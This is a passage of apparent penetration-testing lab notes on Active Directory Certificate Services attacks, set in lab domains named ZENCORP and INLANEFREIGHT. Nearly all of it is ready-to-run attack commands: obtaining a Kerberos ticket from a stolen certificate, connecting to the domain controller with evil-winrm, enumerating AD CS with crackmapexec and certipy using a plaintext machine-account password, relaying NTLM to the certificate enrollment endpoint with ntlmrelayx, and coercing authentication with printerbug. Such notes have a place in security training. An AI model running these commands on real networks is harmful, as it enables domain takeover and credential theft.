 After this get the TGT ticket and connec to dc01

```bash
# Get ticket
python3 gettgtpkinit.py -cert-pfx rbnYdUv8.pfx -pfx-pass NRzoep723H6Yfc0pY91Z ZENCORP.LOCAL/jperez jperez.ccache

# Winrm into DC
KRB5CCNAME=jperez.ccache evil-winrm -i dc01.zencorp.local -r ZENCORP.LOCAL
```

### <mark style="color:yellow;">NTLM Relay Attacks Targeting AD CS</mark>

AC CS manages digital certificates, including issuance for communications, digital signing and encryption.&#x20;

```bash
# Find out which host AD CS service is running
crackmapexec ldap 172.16.117.0/24 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' -M adcs

# List all certificates
crackmapexec ldap 172.16.117.3 -u plaintext$ -p 'o6@ekK5#rlw2rAe' -M adcs -o SERVER=INLANEFREIGHT-DC01-CA
```

#### Using Certipy which can enumerate and attack all of the ESC attacks.&#x20;

```bash
certipy find -enabled -u 'plaintext$'@172.16.117.3 -p 'o6@ekK5#rlw2rAe' -stdout
```

#### Check if NTLM is used to check if endpont is exploitable

```bash
# Using Curl
curl -I http://172.16.117.3/certsrv/

# Using NTLMRecon
./NTLMRecon -t http://172.16.117.3/ -o json | jq
```

### <mark style="color:yellow;">**Run ntlmrelayx to Perform AD CS Relay Attacks**</mark>

```
sudo ntlmrelayx.py -t http://172.16.117.3/certsrv/certfnsh.asp -smb2support --adcs --template Machine
```

#### Use printerbug to coerce SMB NTLM authentication

```bash
python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.50 172.16.117.30
```

